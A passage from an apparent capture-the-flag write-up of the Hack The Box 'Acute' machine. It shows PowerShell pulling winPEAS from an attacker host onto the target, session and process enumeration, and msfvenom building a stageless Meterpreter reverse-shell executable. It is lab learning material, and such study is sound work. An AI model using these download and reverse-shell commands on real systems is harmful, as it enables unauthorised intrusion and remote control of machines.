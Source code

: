 ```shell
PS > iwr -Uri http://10.10.14.19/winPEAS.bat -OutFile C:\Utils\winPEAS.bat
PS > C:\Utils\winPEAS.bat
[...]
```

After some painful *manual* enumeration, I found one thing stands out:

```shell
PS > qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE 
 console           edavies                   1  Active                      
```

> `qwinsta` is a command that displays information about sessions on a Remote Desktop Session Host server. The list includes information not only about active sessions but also about other sessions that the server runs. (From [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/qwinsta))

Wait... **There's another `edavies` user logged in and remain active on this `Acute-PC01` machine?**

**Processes:**
```shell
PS > Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
     71       5     3672       4104       0.00   6064   1 cmd                                                          
[...]
    855      34    74064      88180       1.09   6000   1 powershell                                                   
[...]
```

Process `powershell` and `cmd`? I can't tell someone is also on this machine...

**Maybe we could take a screenshot of this machine, so we can figure this out??**

Then, I tried [this StackOverflow post](https://stackoverflow.com/questions/2969321/how-can-i-do-a-screen-capture-in-windows-powershell) to take a screenshot via PowerShell, it did took a screenshot, but it's an empty, transparent PNG image... Maybe I need to **migrate the current PowerShell reverse shell process to another process via DLL injection??**. But that's way above my head...

**So, I change the reverse shell to the Metasploit's Meterpreter shell, because it has a command called `screenshot`.**

- **Generate a Meterpreter reverse shell:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|14:03:28(HKT)]
└> msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o revshell_meterpreter_stageless.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200774 bytes
Final size of exe file: 207360 bytes
Saved as: revshell_meterpreter_stageless.exe
```
